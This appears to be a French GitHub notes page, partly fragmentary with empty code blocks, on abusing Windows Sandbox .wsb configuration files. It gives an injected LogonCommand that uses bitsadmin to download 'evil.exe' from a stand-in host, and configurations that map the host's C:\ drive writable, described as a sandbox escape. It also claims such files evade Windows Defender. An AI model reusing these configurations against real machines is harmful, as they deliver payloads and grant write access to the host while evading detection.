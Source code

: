 
I  - Fonctionnement du Windows Sandbox


Windows Sandbox (WSB) va permettre de créer un environnement de bureau isolé, 
Les fichiers de configuration de WSB sont au format XML et utilisent l’extension .wsb.


![image](https://user-images.githubusercontent.com/75935486/152426360-480974ca-877d-4786-a715-237211be7558.png)



voici l'exemple d'un fichier de configuration: 

```xml

```











### Exploiter les configurations WSB:


Une des première méthodes consiste à modifier le champs `<Command>` pour executer notre commande malicieuse et accéder au fichiers systèmes de l'hote, en plus de ça les fichiers WSB ne se font pas détecter par Windows Defender.

Commande possible d'injecter:
```powershell
<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
```

Compromissions de la configuration:
```xml
<Configuration>
   <MappedFolders>
 	<MappedFolder>
	  <HostFolder>C:\</HostFolder>
 	  <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 	  <ReadOnly>false</ReadOnly>
 	</MappedFolder>
   </MappedFolders>
   <LogonCommand>
 	<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
   </LogonCommand>
</Configuration>
```













```
• Inheriting Write Access permission to Host Machine (Sand-Box-Escape)

# Mapping C:\ root to Sandbox Environment with write access (RW.wsb)
<Configuration>
 <MappedFolders>
 <MappedFolder>
 <HostFolder>C:\</HostFolder>
 <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 <ReadOnly>false</ReadOnly>
 </MappedFolder>
 </MappedFolders>
</Configuration>
NOTE : File created in the sand-box environment will directly reflect in the C:\ folder of Host Machine



 
• Execution upon Sand-Box Environment Creation 

<Configuration>
 <MappedFolders>
 <MappedFolder>
 <HostFolder>C:\</HostFolder>
 <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 <ReadOnly>false</ReadOnly>
 </MappedFolder>
 </MappedFolders>
 <LogonCommand>
 <Command>C:\Windows\system32\cmd.exe</Command>
 </LogonCommand>
</Configuration>

NOTE : File created in the sand-box environment will directly reflect in the C:\ folder of Host Machine 


```

### étude approfondi de Windows Sandbox:

